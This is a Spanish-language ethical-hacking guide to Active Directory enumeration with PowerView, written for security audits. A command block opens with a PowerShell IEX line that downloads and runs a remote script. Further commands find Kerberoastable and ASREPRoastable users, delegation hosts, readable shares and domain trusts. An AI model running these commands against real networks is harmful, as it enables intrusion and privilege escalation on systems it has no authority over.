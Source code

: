 En la evidencia previa, podemos apreciar la ejecución exitosa de `Get-NetDomain`.

Te recomendamos usar [Broken link](broken-reference "mention")

### La clave de una buena auditoria esta en la enumeración

La enumeración es un paso crucial en la fase de reconocimiento de un ataque o una evaluación de seguridad. Con esta información, un atacante o hacker ético puede planificar y ejecutar ataques más efectivos y dirigidos.

**A continuaciín, te relacionamos algunos ejemplos de posibles vulnerabilidades que podrias encontrar al realizar una buena enumeracion en AD:**

* Al enumerar **usuarios**, un atacante podría descubrir un usuario llamado "backupadmin" y decidir que es un objetivo valioso debido a su posible acceso a backups críticos.
* Al enumerar **computadoras**, un atacante podría identificar un servidor llamado "HR-DB-Server", lo que indica que podría almacenar información valiosa del departamento de recursos humanos.
* Al listar **grupos**, podrían encontrarse grupos como "IT-Admins" o "Finance-Privileged", que, si se comprometen, podrían otorgar acceso a áreas críticas.
* Al revisar **GPOs**, un atacante podría identificar scripts de inicio que están mal configurados y que podrían ser explotados para ejecutar código malicioso.
* Al inspeccionar **ACLs**, podrían descubrirse configuraciones que otorgan permisos de escritura a usuarios normales en directorios que no deberían, permitiendo posibles ataques de escalada de privilegios.

## Guia de comandos

Antes de ejecutar cualquiera de los comandos, se debe importar el comando:

{% code overflow="wrap" %}
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');
```
{% endcode %}

### Quick enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
Get-NetDomain #Basic domain info
#User info
Get-NetUser -UACFilter NOT_ACCOUNTDISABLE | select samaccountname, description, pwdlastset, logoncount, badpwdcount #Basic user enabled info
Get-NetUser -LDAPFilter '(sidHistory=*)' #Find users with sidHistory set
Get-NetUser -PreauthNotRequired #ASREPRoastable users
Get-NetUser -SPN #Kerberoastable users
#Groups info
Get-NetGroup | select samaccountname, admincount, description
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=EGOTISTICAL-BANK,DC=local' | %{ $_.SecurityIdentifier } | Convert-SidToName #Get AdminSDHolders
#Computers
Get-NetComputer | select samaccountname, operatingsystem
Get-NetComputer -Unconstrained | select samaccountname #DCs always appear but aren't useful for privesc
Get-NetComputer -TrustedToAuth | select samaccountname #Find computers with Constrained Delegation
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'} #Find any machine accounts in privileged groups
#Shares
Find-DomainShare -CheckShareAccess #Search readable shares
#Domain trusts
Get-NetDomainTrust #Get all domain trusts (parent, children and external)
Get-NetForestDomain | Get-NetDomainTrust #Enumerate all the trusts of all the domains found
#LHF
#Check if any user passwords are set
```